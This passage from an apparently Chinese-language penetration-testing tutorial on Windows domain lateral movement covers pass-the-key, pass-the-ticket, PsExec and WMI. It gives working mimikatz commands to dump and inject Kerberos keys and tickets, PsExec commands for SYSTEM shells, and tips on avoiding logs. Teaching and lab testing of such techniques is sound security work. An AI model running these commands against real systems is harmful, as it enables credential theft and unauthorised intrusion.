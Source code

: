 **使用AES-256秘钥进行哈希传递(PTK):**(必须安装kb2871997,且需要本地管理员权限)。
```
.\mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
sekurlsa::pth /user:administrator /domain:tonydog.lab /aes256:$aes256
```

## 9.PTT(票据传递,不需要本地管理员权限):

要想使用mimikatz的哈希传递功能，必须具有本地管理员权限。mimikatz同样提供了不需要本地管理员权限进行横向渗透测试的方法，例如票据传递（Pass the Ticket，PTT）。
```
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"

执行以上命令后，会在当前目录下出现多个服务的票据文件,例如krbtgt,cifs,ldap等;
mimikatz清除内存中的票据:
kerberos::purge

将票据文件注入内存,命令:
.\mimikatz.exe kerberos::ptt "票据路径" 
```

其次还有keko进行票据传递

## 10.PsExec

**PsExec是微软官方PsTools工具包中的软件**，期初主要是用于大批量Windows主机的运维，在域环境下效果甚好。

通过PsExec，可以在远程计算机上执行命令，**也可以将管理员权限提升到System权限**以运行指定的程序。

PsExec的基本原理是：通过管道在远程目标计算机上创建一个psexec服务，并在本地磁盘中生成一个名为“PSEXECSVC”的二进制文件，然后通过psexec服务运行命令，运行结束后删除任务。

需要远程系统开启admin$共享（默认是开启的），会产生大量日志。
```
(前提:建立ipc连接)
System权限:
.\PsExec.exe -accepteula \\10.10.10.10 -s cmd.exe

Administrator权限:
.\PsExec.exe -accepteula \\10.10.10.10 cmd.exe

(或者加两个参数)
.\PsExec.exe -accepteula \\10.10.10.10 -u administrator -p Server2012 -s cmd.exe

执行完后，在弹出的终端上进行控制即可
```

Metasploit中也有psexec模块,不赘述.

## 11.WMI

WMI，Windows Management Instrumentation，从Windows 98开始支持，可以在本地或者远程管理计算机系统。

自从PsExec在内网中被严格监控后，越来越多的反病毒厂商将PsExec加入了黑名单，于是攻击者逐渐开始使用WMI进行横向移动。通过渗透测试发现，在使用wmiexec进行横向移动时，**Windows默认不会记录WMI的操作日志。**

使用wmic远程执行命令，在远程系统中启动Windows Management Instrumentation服务（**目标服务器需要开放135端口，wmic会以管理员权限在远程系统中执行命令**）。如果服务器开启了防火墙，wmic将无法进行连接。此外，wmic命令如果没有回显，可以将命令结果输出到某文件，并使用ipc$和type来读取信息。**如果wmic执行的是恶意程序，将不会留下日志。**
